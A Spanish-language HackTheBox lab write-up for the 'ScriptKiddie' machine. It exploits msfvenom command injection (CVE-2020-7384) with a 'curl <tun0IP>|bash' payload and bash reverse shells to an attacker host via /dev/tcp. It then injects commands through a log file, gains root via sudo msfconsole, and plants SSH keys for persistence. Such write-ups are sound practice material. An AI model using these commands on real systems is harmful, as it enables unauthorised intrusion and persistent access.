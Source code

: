 ```yaml
---
title: HackTheBox - ScriptKiddie
author: cotes
date: 2023-09-14 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'msfvenom Command Injection (CVE-2020-7384)', 'Command Injection', Binary Abusing]
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/ScriptKiddie/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: ScriptKiddie Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **msfvenom Command Injection (CVE-2020-7384), Command Injection, Binary Abusing**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/ScriptKiddie/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/ScriptKiddie/02-versions.png)

c. Visitamos el sitio web

![](/assets/images/HTB/Easy/ScriptKiddie/03-web.png)

> La máquina fue liberada el **2021**, por lo que buscaremos algún exploit de nmap o msfvenom en ese año.
{: .prompt-info }

d. Encontramos el [CVE-2020-7384](https://www.exploit-db.com/exploits/49491), modificamos el script para inyectar el comando `curl <tun0 IP>|bash`

```bash
# Change me
payload = 'curl <tun0IP>|bash'
-------------------------------
❯ python msfvenom_rce.py

[+] Done! apkfile is at /tmp/tmpaez5ybvj/evil.apk
```
* Antes de subir el apk a la página web, creamos un fichero 'index.html', lo servimos con python y nos ponemos en escucha con nc

    ```bash
    ❯ cat index.html
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.18/443 0>&1
    -----------------------------------------
    ❯ python -m http.server 80
    ❯ nc -lvnp 443
    ```

* Ahora, subimos el **evil.apk** y recibiremos un reverse shell

    ![](/assets/images/HTB/Easy/ScriptKiddie/04-command.png)


    ```bash
    ❯ nc -lvnp 443
    kid@scriptkiddie:~/html$
    ```

### Escalada de Privilegios 💹

a. Para maniobrar de manera más cómoda, nos autenticamos por el servicio SSH

* Primero, creamos un par de claves **id_rsa** en nuestra máquina

    ```bash
    ❯ ssh-keygen
    ```

* Copiamos la clave id_rsa pública y lo colocamos en el fichero 'authorized_keys' en el directorio .ssh del usuario kid

    ```bash
    kid@scriptkiddie:~/.ssh$ echo -n '<id_rsa pública>' > authorized_keys
    ```

* Ya nos podemos conectar por el servicio ssh

    ```bash
    ❯ ssh kid@<IP ScriptKiddie> -i id_rsa
    kid@scriptkiddie:~$
    ```

b. Al investigar en el sistema, vemos que existe otro usuario y del cual podemos leer script 'scanlosers.sh'

```bash
kid@scriptkiddie:/home$ ls
kid  pwn
kid@scriptkiddie:/home$ ls pwn
recon  scanlosers.sh
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh 
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

> Podemos inyectar comandos ya que la variable `ip` se obtiene de forma insegura. Además esta tarea no se ejecuta cada cierto tiempo, lo que nos lleva a pensar, que se ejecuta cada que modificamos el fichero '/home/kid/logs/hackers'
{: .prompt-info }

* `cut -d' ' -f3-`: Lo que hace es leer del tercer argumento en adelante

c. Nos enviamos una reverse shell

```bash
kid@scriptkiddie:/home/pwn$ echo '1 2 ;bash -c "bash -i >& /dev/tcp/<tun0 IP>/443 0>&1";' > /home/kid/logs/hackers
---------------------------------------------------------------------------------------------------------------------
❯ nc -lvnp 443
pwn@scriptkiddie:~$ script /dev/null -c bash
[Ctrl + Z]
❯ stty raw -echo;fg

    reset xterm

pwn@scriptkiddie:~$ export TERM=xterm-256color
pwn@scriptkiddie:~$ source /etc/skel/.bashrc
```

d. Listamos nuestros permisos a nivel de sudoers

```bash
pwn@scriptkiddie:~$ sudo -l
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

* Nos lanzamos un bash como root, seguimos los pasos que nos indican en [Gtfobins](https://gtfobins.github.io/gtfobins/msfconsole/#shell)

    ```bash
    pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
    msf6 > irb
    [*] Starting IRB shell...
    [*] You are in the "framework" object

    irb: warn: can't alias jobs from irb_jobs.
    >> system("bash")
    root@scriptkiddie:/home/pwn# 
    ```

e. Por último, para entablar 'persistencia' lo que haremos es permitir al usuario root autenticarse por ssh

* Habilitamos al usuario root

    ```bash
    root@scriptkiddie:~/.ssh# cat /etc/ssh/sshd_config

    # Cambiamos esta línea
    #PermitRootLogin prohibit-password 
    # Por esto
    PermitRootLogin yes
    ```

* Copiamos nuestra clave id_rsa pública en el fichero 'authorized_keys' del usuario root

    ```bash
    root@scriptkiddie:~# mkdir .ssh
    root@scriptkiddie:~# cd .ssh/
    root@scriptkiddie:~/.ssh# echo -n '<id_rsa pública>' > authorized_keys
    ```

* Ahora ya podemos acceder al usuario root directamente desde el servicio SSH

    ```bash
    ❯ ssh root@<IP ScriptKiddie> -i id_rsa
    root@scriptkiddie:~# 
    ```